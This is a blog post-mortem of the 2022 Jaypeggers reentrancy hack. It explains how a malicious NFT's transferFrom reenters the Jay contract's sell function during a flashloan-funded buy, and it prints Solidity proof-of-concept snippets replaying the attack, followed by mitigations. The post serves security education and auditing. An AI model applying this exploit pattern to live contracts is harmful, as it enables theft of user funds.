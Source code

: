 ```yaml
---
title: "Jaypeggers Hack 2022"
description: "Jaypeggers 2022 hack post mortem"
pubDate: "Sep 03 2025"
heroImage: "/jaypeggerHack_Hero.webp"
tags: ["defi","solidity","security","reentrancy"]
series: "Smart contract exploits POCs"
seriesOrder: 0
---
```


# Jaypeggers Exploit (2022)

## Introduction

On December 29, 2022, [Jaypeggers](https://jaypeggers.com/), a protocol designed for tax-loss harvesting in the NFT space, suffered a **reentrancy attack**, resulting in the loss of **15.32 ETH** (approximately $18,000). The stolen assets were laundered using Tornado Cash and Aztec.

You can view the transaction here: [BlockSec Explorer](https://app.blocksec.com/explorer/tx/eth/0xd4fafa1261f6e4f9c8543228a67caf9d02811e4ad3058a2714323964a8db61f6)

## Protocol Overview

Jaypeggers is an Ethereum protocol for tax-loss harvesting.

The key part relevant to the hack is the ability to **buy Jay tokens** with ETH, optionally supplying NFTs. This logic is implemented in the **Jay token contract (ERC20)**:

```solidity
function buyJay(
    address[] calldata erc721TokenAddress,
    uint256[] calldata erc721Ids,
    address[] calldata erc1155TokenAddress,
    uint256[] calldata erc1155Ids,
    uint256[] calldata erc1155Amounts
) public payable { ... }
```

Key points:

* The contract mints Jay tokens based on the ETH submitted.
* The price is determined using `ETHtoJAY(msg.value)`:

```solidity
function ETHtoJAY(uint256 value) public view returns (uint256) {
    return value.mul(totalSupply()).div(address(this).balance.sub(value));
}
```

* Essentially, **Jay price = contract’s ETH balance ÷ Jay supply**.

There is also a **sell function**:

```solidity
function sell(uint256 value) public { ... }
```

This burns the sold Jay tokens and transfers ETH back to the seller, taking fees for the developer.


When buying Jay with NFTs, the following function is triggered:

```solidity
function buyJayWithERC721(
    address[] calldata _tokenAddress,
    uint256[] calldata ids
) internal {
    for (uint256 id = 0; id < ids.length; id++) {
        IERC721(_tokenAddress[id]).transferFrom(
            msg.sender,
            address(this),
            ids[id]
        );
    }
}
```

This calls the NFT’s `transferFrom` function, transferring NFTs to the Jay contract.

## The Vulnerability

The vulnerability arises during NFT transfers.

* When `transferFrom` is called, it **opens the door for reentrancy**.
* A malicious user can deploy a **malicious NFT contract** that calls back into the Jay contract during `transferFrom`.

### How the Exploit Works

* Recall the **Jay price formula**: it depends on the vault ETH balance.
* When buying Jay, ETH is sent first, **temporarily altering the price** before the Jay supply is updated.

The hacker:

1. Buys some Jay tokens at the correct price.
2. Executes a large purchase using a **malicious NFT** that overrides `transferFrom`.
3. Exploits reentrancy to **sell previously bought Jay tokens at a higher price**, profiting from the temporary price manipulation.
4. Finalizes by selling tokens bought during the exploit, further draining the vault.

## Exploit Step by Step

Using BlockSec Phalcon, the transaction unfolds as follows:

![Profit](/jaypegger/jaypegger_phalcon01.webp)

1. **Flashloan**
jaypegger_phalcon01
![Step 1 – Flashloan](/jaypegger/jaypegger_phalcon02.webp)

The hacker flashloaned **72.5 ETH** via Balancer to fund the exploit.

2. **First (Legit) Buy**

![First buy](/jaypegger/jaypegger_phalcon03.webp)

Hacker buys **13,584 Jay tokens** for 22 ETH (price ≈ 0.00162 ETH per Jay).

3. **Second Buy with NFT & Reentrancy**

![Reentrancy buy](/jaypegger/jaypegger_phalcon04.webp)

* Hacker spends **50.5 ETH** with a malicious NFT.
* Sells the 13,584 Jay tokens at a higher price, receiving **41.659 ETH**.
* Receives **4,313,025 Jay tokens** due to the vault being drained, further lowering the Jay price.

4. **Sell Exploit Tokens**

![Sell exploit tokens](/jaypegger/jaypegger_phalcon05.webp)
* Sells 4,313,025 Jay tokens for **44.11 ETH**.

5. **Repay Flashloan**

![Repay flashloan](/jaypegger/jaypegger_phalcon06.webp)
Net profit: **≈13 ETH**.

* The hacker repeated the exploit **two more times**, draining more ETH from the vault.

## PoC Description

A Foundry project replicates the hack: [GitHub Repo](https://github.com/tibthecat/HackReplay_Jaypeggers_202212)
Steps to replay:

1. Flashloan

```solidity
        // flashloan        
        IVault balancerVault = IVault(balancerVaultAddress);       
        IERC20[] memory tokens = new IERC20[](1);
        uint256[] memory amounts = new uint256[](1);
        tokens[0] = IERC20(address(WETH)); // WETH;
        amounts[0] = amountFlashloan; // borrow amountFlashloan WETH
        balancerVault.flashLoan(IFlashLoanRecipient(address(this)), tokens, amounts, "");
```
2. First buy
   
```solidity
        address[] memory erc721TokenAddress; 
        uint256[] memory erc721Ids;
        address[] memory erc1155TokenAddress;
        uint256[] memory erc1155Ids;
        uint256[] memory erc1155Amounts;

        // 1st buy that is legit, get some Jay tokens
        uint JayBalance = Jay.balanceOf(address(this));
        Jay.buyJay {value: amount1}(
            erc721TokenAddress,
            erc721Ids,
            erc1155TokenAddress,
            erc1155Ids,
            erc1155Amounts
        );
```

3. Second buy with reentrancy exploit

```solidity 
        // 2nd buy with NFT to exploit reentrancy
        erc721TokenAddress = new address[](1);
        erc721Ids = new uint256[](1);
        erc721TokenAddress[0] = address(this);
        erc721Ids[0] = 1; 

        // buyjay will call transferFrom on the NFT, which will reenter sell
        // as ETH have been sent to Jay contract, we will be able to sell at a much bigger price
        Jay.buyJay {value: amount2}(
            erc721TokenAddress,
            erc721Ids,
            erc1155TokenAddress,
            erc1155Ids,
            erc1155Amounts
        );
```

```solidity
    function transferFrom(address from, address to, uint256 tokenId) external {
        // reenter sell
        JaypeggersV1 Jay = JaypeggersV1(jaypeggersAddress);
        Jay.approve(jaypeggersAddress,jayBought);
        Jay.sell(jayBought);
        
    }
```

## Root Cause Analysis

This vulnerability is **common in DeFi contracts**.

* Static analysis tools like **Slither** could have detected it.
* Proper auditing should have caught it.

**Lessons for developers and auditors**:

* Always protect functions from **reentrancy** using modifiers like `nonReentrant`.
* Restrict inputs strictly (e.g., allow only specific NFT contracts).

## Mitigation & Fixes

* The current code fixes the vulnerability using a **`nonReentrant` modifier**.
* Best practices:

  * Follow **checks-effects-interactions pattern**
  * Limit allowed inputs for functions
  * Use proper unit testing and static analysis

## Takeaways

* Reentrancy vulnerabilities remain **critical in DeFi**.
* Price manipulation can occur when **ETH is sent before state updates**.
* Combining **flashloans with reentrancy** amplifies risks.
* Proper auditing, modifiers, and input restrictions are essential to prevent similar exploits.

---

*This analysis is for educational purposes only. Always conduct your own research before interacting with smart contracts.*
